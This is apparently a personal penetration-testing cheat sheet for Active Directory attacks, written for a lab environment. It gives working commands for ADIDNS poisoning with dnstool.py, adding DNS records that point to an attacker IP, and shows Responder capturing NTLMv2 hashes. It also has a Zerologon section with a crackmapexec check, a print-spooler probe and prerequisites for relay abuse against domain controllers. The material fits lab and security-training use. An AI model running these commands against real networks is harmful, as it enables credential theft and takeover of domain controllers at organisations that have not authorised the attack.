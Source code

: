 ## ADIDNS poisoning

{% code overflow="wrap" fullWidth="true" %}
```bash
# If we Google about DNS Active Directory attacks, we find Active Directory Integrated DNS (ADIDNS) poisoning
https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing

# And there a Linux tool called dnstools.py
https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
# Query DNS record
└─$ python3 /opt/WINDOWS/AD/krbrelayx/dnstool.py -u 'domain.com\user' -p 'passw' --record '*' --action query -dc-ip 10.10.10.10 10.10.10.10
# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController

└─$ python3 /opt/WINDOWS/AD/krbrelayx/dnstool.py -u 'domain.com\user' -p 'passw' --record 'webantz' --action add --data $ATTACKER_IP $TARGET_IP             
# To check it was sucessful, we try again and see an error since it already exists
└─$ python3 /opt/WINDOWS/AD/krbrelayx/dnstool.py -u 'domain.com\user' -p 'passw' --record 'webantz' --action add --data 10.10.14.7 10.10.10.10
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[!] Record already exists and points to 10.10.14.7. Use --action modify to overwrite or --allow-multiple to override this
# Another way to test it was successfully added
nslookup
> server $IP
> webserver # if it points to our server address (target) it is ok, otherwise it says server can't find that DNS record

# Similar aproach
https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-http-image-and-internal-dns
# Now we use Responder to catch NTLMv2 hashes (for example)
sudo responder -I tun0
```
{% endcode %}

## Zerologon

{% code overflow="wrap" fullWidth="true" %}
```bash
# Only check
crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon

# ANOTHER METHOD THAT INVOLVES RELAY
https://dirkjanm.io/a-different-way-of-abusing-zerologon/
Prerequisites:
  • An account is needed to trigger the printer bug (you can also use a POC in .NET that uses SSO if you have access to a Domain Joined box)
  • The Print Spooler service should be running on the DC 
└─$ impacket-rpcdump @VULNERABLE_DC_IP | egrep 'MS-RPRN|MS-PAR'           
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
  • The DC should be vulnerable to Zerologon
  • The DC should be able to connect to the attacker workstation and not be blocked by firewalls
  • You should be able to run Python and bind to port 445 for an incoming SMB connection (this is tricky on Windows) // I AM USING LINUX, NO PROBLEM
  • There should be at least 2 DCs in the domain, since relaying back to the same DC does not work // INDEED THERE IS ANOTHER DC (SRV01) WITH DOMAIN LAB.OFFSHORE.LOCAL
```